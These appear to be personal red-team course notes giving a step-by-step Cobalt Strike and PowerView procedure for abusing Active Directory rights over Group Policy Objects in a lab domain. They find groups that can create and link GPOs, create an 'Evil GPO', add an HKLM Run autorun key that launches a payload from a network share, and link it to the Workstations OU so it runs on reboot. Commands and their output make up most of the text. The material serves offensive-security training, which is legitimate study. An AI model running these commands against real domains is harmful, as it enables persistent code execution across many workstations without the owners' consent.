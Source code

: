 
Group Policy Objects are stored in `_CN=Policies,CN=System_` - principals that can create new GPOs in the domain have the "`Create groupPolicyContainer objects`" privilege over this object.

#### 🖊️ what can we do

1) Find groups with the power to create GPOs
2) Check their rights
3) Resolve their SID (to find out who they are)
4) Link it to an OU
5) Wait for a reboot

#### 📔 via Cobalt Strike

1) Find groups that have "CreateChild" rights on the "Group-Policy-Container" via PowerView's `Get-DomainObjectAcl`

```
beacon> powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

DEV\Developers
```

2) The ability to link a GPO to an OU is controlled on the OU itself by granting "Write gPLink" privileges.

This is also something we can find with PowerView by first getting all of the domain OUs and piping them into Get-DomainObjectAcl again.  Iterate over each one looking for instances of "WriteProperty" over "GP-Link" .

```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl

ObjectDN              : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : ReadProperty, WriteProperty
ObjectAceType         : GP-Link
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

  This shows that members of the "Developers" group can link GPOs to the "Workstations" OU.

3) GPOs can be managed from the command line via the PowerShell RSAT modules.  These are an optional install and so usually only found on management workstations.  The `Get-Module` cmdlet will show if they are present.

```
beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

Key                        Value                     
---                        -----                     
Backup-GPO                 Backup-GPO                
Block-GPInheritance        Block-GPInheritance       
Copy-GPO                   Copy-GPO                  
Get-GPInheritance          Get-GPInheritance         
Get-GPO                    Get-GPO
```

4) Use the `New-GPO` cmdlet to create and link a new GPO.

```
beacon> powershell New-GPO -Name "Evil GPO"

DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\bfarmer
Id               : 550f6672-bdd0-4e3d-8907-628ee6909f26
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 9/8/2022 1:30:17 PM
ModificationTime : 9/8/2022 1:30:17 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

5) Some abuses can be implemented directly using RSAT.  For example, the `Set-GPPrefRegistryValue` cmdlet can be used to add an HKLM autorun key to the registry.
```
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
```

6) Next, apply the GPO to the target OU.

```
beacon> powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"

GpoId       : 550f6672-bdd0-4e3d-8907-628ee6909f26
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 4
```

Remember that HKLM autoruns require a reboot to execute.



#### ⚠ Opsec



### Properties
---
📆 created   {{20-02-2024}} 22:19
🏷️ tags: #redteam #crto 

---

